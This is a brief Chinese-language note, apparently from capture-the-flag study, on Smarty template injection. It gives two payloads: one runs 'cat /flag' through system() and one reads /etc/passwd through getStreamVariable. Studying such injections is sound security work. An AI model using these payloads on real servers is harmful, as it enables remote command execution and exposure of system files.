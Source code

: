 ## smarty 模板注入
	- 花括号内可以 eval 命令
	- ```php
	  {system('cat /flag')}
	  ```
	- ```php
	  {self::getStreamVariable("file:///etc/passwd")}
	  ```